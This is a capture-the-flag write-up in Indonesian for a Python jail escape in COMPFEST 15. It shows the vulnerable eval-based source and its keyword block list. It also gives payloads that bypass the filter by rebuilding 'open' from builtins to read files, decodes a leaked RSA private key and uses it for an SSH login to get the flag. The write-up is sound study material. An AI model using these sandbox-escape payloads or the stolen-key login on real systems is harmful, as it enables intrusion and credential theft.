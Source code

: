 # __CTF COMPFEST 15__ 
## _napi_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Misc | 316 | themanusia

**Description:** 

> john is currently planning an escape from jail. Fortunately, he got a snippet of the jail source code from his cellmate. Can you help john to escape?
> 
> `nc 34.101.122.7 10008`
> 
> [snippet.py](snippet.py)

### snippet.py
```py
# ...

def main():
    banned = ['eval', 'exec', 'import', 'open', 'system', 'globals', 'os', 'password', 'admin']

    print("--- Prisoner Limited Access System ---")

    user = input("Enter your username: ")

    if user == "john":
        inp = input(f"{user} > ")

        while inp != "exit":
            for keyword in banned:
                if keyword in inp.lower() or not inp.isascii():
                    print(f"Cannot execute unauthorized input {inp}")
                    print("I told you our system is hack-proof.")
                    exit()
            try:
                eval(inp)
            except:
                print(f"Cannot execute {inp}")
            
            inp = input(f"{user} > ")

    elif user == "admin":
        print("LOGGING IN TO ADMIN FROM PRISONER SHELL IS NOT ALLOWED")
        print("SHUTTING DOWN...")
        exit()
    
    else:
        print("User not found.")

# ...
```

## Solution
Pada chall ini kita bisa menggunakan syntax python tapi dengan batasan tidak bisa menggunakan beberapa syntax pada list `banned`. Jalankan challnya pada remote dan kita coba menggunakan syntax berikut.
> `john > print(__builtins__.__dict__['op'+'en'])`

Dan menghasilkan

> `<built-in function open>`

Kita lanjutkan dengan melihat isi source code chall ini karena pada file yang ada pada soal kurang lengkap menggunakan syntax berikut.

> `john > print(__builtins__.__dict__['op'+'en'](__file__).read())`

Dan menghasilkan [chall.py](chall.py)

## chall.py
```py
password = open("creds.txt", "r")

del __builtins__.__import__


def main():
    banned = ['eval', 'exec', 'import', 'open',
              'system', 'globals', 'os', 'password', 'admin']

    print("--- Prisoner Limited Access System ---")

    user = input("Enter your username: ")

    if user == "john":
        inp = input(f"{user} > ")

        while inp != "exit":
            for keyword in banned:
                if keyword in inp.lower() or not inp.isascii():
                    print(f"Cannot execute unauthorized input {inp}")
                    print("I told you our system is hack-proof.")
                    exit()
            try:
                eval(inp)
            except:
                print(f"Cannot execute {inp}")

            inp = input(f"{user} > ")

    elif user == "admin":
        print("LOGGING IN TO ADMIN FROM PRISONER SHELL IS NOT ALLOWED")
        print("SHUTTING DOWN...")
        exit()

    else:
        print("User not found.")


def admin(password_io=None):
    if password_io == globals()['password']:
        print(f"Welcome admin!")
        print("Here's the flag: ")
        with open("notice.txt", "r") as f:
            print(f.read())
    else:
        print("Wrong password!")


if __name__ == "__main__":
    try:
        main()
    except:
        print("Something horribly wrong happened")

```

Terlihat 2 file yang menarik yaitu `notice.txt` dan `creds.txt`, kita buka kedua file tersebut.

> `john > print(__builtins__.__dict__['op'+'en']('creds.txt').read())`

> `john > print(__builtins__.__dict__['op'+'en']('notice.txt').read())`

Dan menghasilkan [creds.txt](creds.txt) dan [notice.txt](notice.txt).

### creds.txt
```
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFb3dJQkFBS0NBUUVBbjhDYzFqdnZW
ZGFESTlOUThlbk5kd1BaTFd1Qkt5aG13ZklpV1NUREdJYi8xNTVkCmhXMGZ2aXNCVkJvMFZhamRG
MFhsL056MEpYd2RXcGVVcmdzaUUyKytrSHBrZ3Z6VHVma3BsVkRERkNBNDR6b3EKSHhKS09TVzdW
VzgvNjdHbHorQlBBc1RkYloySUEwYThTVVJIZ1FXc0IybXlBRmxRNGNLNXBodlFpZjRQQ0didQpL
VkMyNTBHcTRTUzBnYnhicjdjUXVhek9JYWljKzd5azYzcW5RakkvRVladkRMSHVtdG1uaEpnc3JM
SVdMeUZ2Ci9DU05XWnJXSVozREwwWGphUkRiQzBHMGw4dlNVNUpOZ0E2S1JRTDhUOUIwZk5pYXl1
U28zMWVHMy9CY3l5YVYKVG1EM1lsQ2J4NUU1TlZsemt0N1I0M3dkYVZFV0FBVzBwOGprdFFJREFR
QUJBb0lCQUUxZkgxYlBMbXFYZTJwVgpoV1cxQkJNNVpPMFBuVDdHMFlYcmZPRko0Y2UyVXFFZWpW
TDYrQjNGZkY0OFZzNkorNUt6QXVIR0xlVWR5S1hBCnRuelkzWWNtWHRoZ3Z0K0dEaEdMY0sxbHNT
WEZPV2dzR294ejhramRVbTdkYzhyMmZrVkE4V040NzNtUWkzaHkKd095SFNrNWQ3ZVNsTjFYZDdF
TjdhU2pmWGRBRzNVTmRISWR2clAwL2t5K3J6SzlualN0bHF5RGUyYVFTZHRpNQpQa2xQSVY1QUVY
bnNSVGNoUzFLVTcvdWlxVUw5L1BsQlZXM1lieTl2OVExVm5Jd3Z4eXA2aVRQOW13RW1RM251Ci9h
Zm9XTEJtOUFicnV6UXpSdzN0aGN0UlNvMTZWREFBQW5ybGd1NkhMSXJGK21jaER6NERuN2pDZm8x
YlZzRk0KSTJ2aHlPRUNnWUVBMFlrRTZtSlBGdDhJcENZVzlOUGw3bHMzTnV1NVlNY2ZLbzhndy9h
RnZXaHJGRUtnOGJqUwp3STNrcTFGN0pWS0tYQVVGMDEwNGJmZ3QwMnJpTTJ0cGxUZnQ4ajZ0dGQ2
RWt3Yy8xdDhTUjNpelQyaTc5TW1hCnRTb3BCcThhcDZuRVEwSElITU9XYnlZYVgxSmFsZVVhcTBl
eVRrQWNWZFRRN3E1OUZaTVpVazBDZ1lFQXd5MkEKU3V6Q0haMy9uVGYrT0YvUi9JMi9nWHcvOGtj
MEhmSnZjbkVrZWg2TUR4cWhwc0YzZlRBbzZiV2N5cWZhbzdtVQpJREF2NjBlbjlyNFpWbWdOQm1K
N2JhbUxTTmg3RDhhaTZPZ1d3Q1NDQ0JMV0RuSzFKZXd2NFhJWklLM3BERGZhCkJ1MWx0YUpqMkVG
WmVIQUV5a0MvSG5DbVhVbjZjazNudUt2NUFBa0NnWUFiRys0ZDRQQTRsa3lJNkVDcUZrdzIKUldq
a1d5VVZ4MDFaOVVDWStla2RzMGUvVEV1RVdwUXh3Mm5sWEZwaFhzZDExbFNGbnhidzYxNEtiMWFx
cm1mdgpuVmZVc3BWSTVXd2psWm1GMUVDS0xLeU9Sbytpd1A2YUY4Vk5EeFNVd3BzWTFJYnVhY09w
eDdVN3hlemdYYzdRCmdDc3FncExuNit2SUpaMGJVSGZETlFLQmdRQ3E4MTJkUW9ZN1hyb1d3SVpn
WmowTVVqTmNmTEdkeVpQeWJ2Z0MKYXVzaU0wTkZyM1BMRlVWTlZ6TmVrSDNHV3dMN3lIM2ZPNVdk
SkdRUGtDMnRLdkhObDlDNEdub3UwYjNuOFhtYgpPajFEQ2pjQ1QwMUIxbUtuMXBtUmcxaFM4VUJn
UFVNd01ocVYzcWhKTCtQbncyWE9xS3M5UkRuVEdBck90MEd3CjFLQUIwUUtCZ0FHVFVPWGhVOVhB
bHZVZG9DeTFUZTNLeU5TWFRwekJXNFJxN3p3ejZQMENOVzlQTHNxNHNFRU0KcjlHYXpFUys5aW92
eS9DeDlFd0xCVXlLWi9sTFVzUWNta2IwOWdTS2hBbTk5aXRKSVE0eHJYUytyR2I5dzQrbgpqclRh
OHF6Y3QvOGNVOGlkeHlFUVZoc2xhRnlCQkU5elE2REtjb3RRQ1BrQmY3T09Lc0MvCi0tLS0tRU5E
IFJTQSBQUklWQVRFIEtFWS0tLS0tCg==
```

### notice.txt
```
--- IMPORTANT NOTICE ---

Dear admins, I have received information that a prisoner is trying to get access to the flag.
I have moved the flag somewhere safe.
I would advise you not to access the flag right now.
But if there is an urgent matter, login to admin@THIS_SERVER_IP:10009 with your password as the SSH key to access the flag.
```


Pada [creds.txt](creds.txt) masih berupa base64, kita encode menghasilkan [rsa.txt](rsa.txt).

### rsa.txt
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAn8Cc1jvvVdaDI9NQ8enNdwPZLWuBKyhmwfIiWSTDGIb/155d
hW0fvisBVBo0VajdF0Xl/Nz0JXwdWpeUrgsiE2++kHpkgvzTufkplVDDFCA44zoq
HxJKOSW7VW8/67Glz+BPAsTdbZ2IA0a8SURHgQWsB2myAFlQ4cK5phvQif4PCGbu
KVC250Gq4SS0gbxbr7cQuazOIaic+7yk63qnQjI/EYZvDLHumtmnhJgsrLIWLyFv
/CSNWZrWIZ3DL0XjaRDbC0G0l8vSU5JNgA6KRQL8T9B0fNiayuSo31eG3/BcyyaV
TmD3YlCbx5E5NVlzkt7R43wdaVEWAAW0p8jktQIDAQABAoIBAE1fH1bPLmqXe2pV
hWW1BBM5ZO0PnT7G0YXrfOFJ4ce2UqEejVL6+B3FfF48Vs6J+5KzAuHGLeUdyKXA
tnzY3YcmXthgvt+GDhGLcK1lsSXFOWgsGoxz8kjdUm7dc8r2fkVA8WN473mQi3hy
wOyHSk5d7eSlN1Xd7EN7aSjfXdAG3UNdHIdvrP0/ky+rzK9njStlqyDe2aQSdti5
PklPIV5AEXnsRTchS1KU7/uiqUL9/PlBVW3Yby9v9Q1VnIwvxyp6iTP9mwEmQ3nu
/afoWLBm9AbruzQzRw3thctRSo16VDAAAnrlgu6HLIrF+mchDz4Dn7jCfo1bVsFM
I2vhyOECgYEA0YkE6mJPFt8IpCYW9NPl7ls3Nuu5YMcfKo8gw/aFvWhrFEKg8bjS
wI3kq1F7JVKKXAUF0104bfgt02riM2tplTft8j6ttd6Ekwc/1t8SR3izT2i79Mma
tSopBq8ap6nEQ0HIHMOWbyYaX1JaleUaq0eyTkAcVdTQ7q59FZMZUk0CgYEAwy2A
SuzCHZ3/nTf+OF/R/I2/gXw/8kc0HfJvcnEkeh6MDxqhpsF3fTAo6bWcyqfao7mU
IDAv60en9r4ZVmgNBmJ7bamLSNh7D8ai6OgWwCSCCBLWDnK1Jewv4XIZIK3pDDfa
Bu1ltaJj2EFZeHAEykC/HnCmXUn6ck3nuKv5AAkCgYAbG+4d4PA4lkyI6ECqFkw2
RWjkWyUVx01Z9UCY+ekds0e/TEuEWpQxw2nlXFphXsd11lSFnxbw614Kb1aqrmfv
nVfUspVI5WwjlZmF1ECKLKyORo+iwP6aF8VNDxSUwpsY1IbuacOpx7U7xezgXc7Q
gCsqgpLn6+vIJZ0bUHfDNQKBgQCq812dQoY7XroWwIZgZj0MUjNcfLGdyZPybvgC
ausiM0NFr3PLFUVNVzNekH3GWwL7yH3fO5WdJGQPkC2tKvHNl9C4Gnou0b3n8Xmb
Oj1DCjcCT01B1mKn1pmRg1hS8UBgPUMwMhqV3qhJL+Pnw2XOqKs9RDnTGArOt0Gw
1KAB0QKBgAGTUOXhU9XAlvUdoCy1Te3KyNSXTpzBW4Rq7zwz6P0CNW9PLsq4sEEM
r9GazES+9iovy/Cx9EwLBUyKZ/lLUsQcmkb09gSKhAm99itJIQ4xrXS+rGb9w4+n
jrTa8qzct/8cU8idxyEQVhslaFyBBE9zQ6DKcotQCPkBf7OOKsC/
-----END RSA PRIVATE KEY-----

```

Pada [notice.txt](notice.txt) terdapat hint bahwa kita harus mengakses server SSH dengan credential admin. Lalu kita akses server SSH dengan password yang ditemukan tadi. Jangan lupa juga mengganti permission [rsa.txt](rsa.txt) ke `600`

> `$ chmod 600 rsa.txt`

> `$ ssh admin@34.101.122.7 -p 10009 -i rsa.txt`

Setelah berhasil mengakses server SSH kita gunakkan command

> `$ ls`

untuk melihat list file dan terdapat file `flag.txt` dan kita buka untuk mendapakan flag

> `$ cat flag.txt`

## Flag:
> COMPFEST15{clo5e_y0ur_f1LE_0bj3ctS_plZzz___THXx_053fac8f23}